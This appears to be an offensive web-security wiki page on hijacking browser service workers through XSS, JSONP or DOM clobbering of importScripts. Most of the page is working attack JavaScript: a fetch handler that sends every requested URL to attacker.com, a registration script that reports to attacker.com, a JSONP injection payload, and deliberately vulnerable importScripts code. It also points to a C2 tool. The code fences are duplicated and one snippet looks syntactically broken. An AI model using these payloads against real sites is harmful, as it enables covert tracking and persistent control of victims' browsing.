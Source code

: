 # Abusing Service Workers


## Basic Information

A **service worker** is a script run by your browser in the background, separate from any web page, enabling features that don't require a web page or user interaction, thus enhancing **offline and background processing** capabilities. Detailed information on service workers can be found [[https://developers.google.com/web/fundamentals/primers/service-workers|here]]. By exploiting service workers within a vulnerable web domain, attackers can gain control over the victim's interactions with all pages within that domain.

### Checking for Existing Service Workers

Existing service workers can be checked in the **Service Workers** section of the **Application** tab in **Developer Tools**. Another method is visiting [[https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals|chrome://serviceworker-internals]] for a more detailed view.

### Push Notifications

**Push notification permissions** directly impact a **service worker's** ability to communicate with the server without direct user interaction. If permissions are denied, it limits the service worker's potential to pose a continuous threat. Conversely, granting permissions increases security risks by enabling the reception and execution of potential exploits.

## Attack Creating a Service Worker

In order to exploit this vulnerability you need to find:

- A way to **upload arbitrary JS** files to the server and a **XSS to load the service worker** of the uploaded JS file
- A **vulnerable JSONP request** where you can **manipulate the output (with arbitrary JS code)** and a **XSS** to **load the JSONP with a payload** that will **load a malicious service worker**.

In the following example I'm going to present a code to **register a new service worke**r that will listen to the `fetch` event and will **send to the attackers server each fetched URL** (this is the code you would need to **upload** to the **server** or load via a **vulnerable JSONP** response):

```javascript
self.addEventListener('fetch', function(e) {
  e.respondWith(caches.match(e.request).then(function(response) {
    fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
```
And this is the code that will **register the worker** (the code you should be able to execute abusing a **XSS**). In this case a **GET** request will be sent to the **attackers** server **notifying** if the **registration** of the service worker was successful or not:

```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
  .then(function(registration) {
    var xhttp2 = new XMLHttpRequest();
    xhttp2.open("GET", "https://attacker.com/SW/success", true);
    xhttp2.send();
  }, function (err) {
    var xhttp2 = new XMLHttpRequest();
    xhttp2.open("GET", "https://attacker.com/SW/error", true);
    xhttp2.send();
  });
});
</script>
```
```
In case of abusing a vulnerable JSONP endpoint you should put the value inside `var sw`. For example:

```javascript
var sw =
  "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//"
```
```
There is a **C2** dedicated to the **exploitation of Service Workers** called [[https://shadow-workers.github.io|**Shadow Workers**]] that will be very useful to abuse these vulnerabilities.

The **24-hour cache directive** limits the life of a malicious or compromised **service worker (SW)** to at most 24 hours after an XSS vulnerability fix, assuming online client status. To minimize vulnerability, site operators can lower the SW script's Time-To-Live (TTL). Developers are also advised to create a [[https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776|**service worker kill-switch**]] for rapid deactivation.

## Abusing `importScripts` in a SW via DOM Clobbering

The function **`importScripts`** called from a Service Worker can **import a script from a different domain**. If this function is called using a **parameter that an attacker could** modify he would be able to **import a JS script from his domain** and get XSS.

**This even bypasses CSP protections.**

**Example vulnerable code:**

- **index.html**

```html
<script>
  navigator.serviceWorker.register(
    "/dom-invader/testcases/augmented-dom-import-scripts/sw.js" +
      location.search
  )
  // attacker controls location.search
</script>
```
```
- **sw.js**

```javascript
const searchParams = new URLSearchParams(location.search)
let host = searchParams.get("host")
self.importScripts(host + "/sw_extra.js")
//host can be controllable by an attacker
```
```
### With DOM Clobbering

For more info about what DOM Clobbering is check:

[[dom-clobbering.md]]

If the URL/domain where that the SW is using to call **`importScripts`** is **inside a HTML element**, it's **possible to modify it via DOM Clobbering** to make the SW **load a script from your own domain**.

For an example of this check the reference link.

## References

- [[https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering|https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering]]



